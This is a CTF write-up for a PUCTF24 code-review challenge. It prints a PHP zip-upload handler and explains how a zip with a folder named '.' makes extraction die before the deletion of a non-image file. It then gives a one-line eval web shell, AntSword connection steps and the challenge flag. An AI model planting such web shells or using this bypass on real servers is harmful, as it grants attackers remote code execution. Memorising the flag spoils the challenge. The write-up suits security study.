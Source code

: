 # Review 審計


```php
<?php
if(isset($_POST["submit"])){
    if(!isset($_FILES["file"])){
        die("No file uploaded");
    }
    else if($_FILES["file"]["size"] > 2097152){
        die("File size is too large");
    }
    else if(pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION) != "zip"){
        die("File extension is not supported");
    }
    else if(file_get_contents($_FILES["file"]["tmp_name"], FALSE, NULL, 0, 2) != "PK"){
        die("File is not a zip file");
    }
    else if(!move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/" . $_FILES["file"]["name"])){
        die("File is not uploaded");
    }
    else{
        $dir = "uploads/" . pathinfo($_FILES["file"]["name"], PATHINFO_FILENAME);
        if(!file_exists($dir)){
            mkdir($dir);
        }
        else{
            die("Directory is already exists");
            return;
        }
        $zip = new ZipArchive;
        $res = $zip->open("uploads/" . $_FILES["file"]["name"]);
        if($res === TRUE){
            for($i = 0; $i < $zip->numFiles; $i++) {
                $filename = $zip->getNameIndex($i);
                $fileinfo = pathinfo($filename);
                copy("zip://"."./uploads/" . $_FILES["file"]["name"]."#".$filename, $dir . "/". $fileinfo['basename']) or die("Unzip failed!");
            }                 
            $zip->close();

            $files = scandir($dir);
            foreach($files as $file){
                if($file != "." && $file != ".."){
                    if(pathinfo($file, PATHINFO_EXTENSION) != "jpg" && pathinfo($file, PATHINFO_EXTENSION) != "png"){
                        unlink($dir . "/" . $file);
                    }
                }
            }

            unlink("uploads/" . $_FILES["file"]["name"]);
            echo "File is uploaded successfully";
        }
    }
}
?>
```

First, we examined the code and noticed that it only allows the upload of ZIP files, and it conducts a detailed inspection of the ZIP, which means that conventional methods to bypass this restriction won't work. Next, we observed that after uploading a file, the system extracts the contents into the /uploads/(zip name)/ directory, including the contents of subdirectories, although the folders themselves are not preserved. Subsequently, the system checks the types of the extracted files and removes all files except for those with .jpg or .png extensions. Therefore, if we want to execute our uploaded PHP file, we need to find a way to prevent it from being deleted. Fortunately, the line `copy("zip://"."./uploads/" . $_FILES["file"]["name"]."#".$filename, $dir . "/". $fileinfo['basename']) or die("Unzip failed!");`​ comes to our aid. This line checks for any issues during file extraction, and if there are problems, it will execute `die()`​

​![image](assets/a.png)​

After the `die()`​ function is executed, subsequent functions will not run, so naturally, the PHP file will not be deleted.

To successfully extract the files while causing the program to think there's an issue and thus execute the `die()`​ function, one method is to exploit a bug related to file naming in some compression software. Normally, folders or files cannot be named with the symbols`.`​ or`/`​because these symbols have special purposes in the file system. For example `/`​ is used to separate directories in a file path, and `.`​ represents the current directory. However, some software can be tricked into naming a folder with using certain methods, Before exploiting this bug, first write a web shell PHP code and rename it to `1.php`​:

```php
<?php 
@eval($_POST['cmd']);
?>
```

Afterwards, use "360 Compression Software" to add this file to a ZIP archive.

​![image](assets/b.png)​

Then, right-click, create a new folder, and change the folder's name to `/.`​ and confirm.

​![image](assets/c.png)​

​![image](assets/d.png)Next, you will see a folder named `.`​ inside the ZIP archive. Copy the `1.php`​ file into the `.`​ folder, and delete the one in the main directory.

Then, upload the file to the website, but since the name `1.zip`​ has already been used, change the ZIP filename to `catchme_ctf.zip`​.

​![image](assets/e.png)​

​![image](assets/f.png)Then, seeing a 'failed' message is expected, but the files inside have been successfully extracted.

Then, based on the code, deduce that the file will be in `/uploads/catchme_ctf/`​ ,  which means our file is located at `/uploads/catchme_ctf/1.php`​ .

Afterwards, you can proceed with webshell operations. Here, choose to use [AntSword](https://github.com/AntSwordProject/antSword) as an example.

​![image](assets/g.png)First, right-click and select 'Add'.

And enter the configuration details.

​![image](assets/h.png)​

Click 'Add' to complete the process

​![image](assets/i.png)If everything is configured correctly, you should see a message that the Add shell success.

Enter the shell device.

​![image](assets/j.png)​

Inside the HTML folder, you will find the file named `flag.php`​.

​![image](assets/k.png)​

Open it, and you will obtain the flag  `PUCTF24{y0u_h4v3_g00d_r3v13w_th3_c0d3_8d5f3a7e29b16c402e0c8918a47e03b9}`​

‍
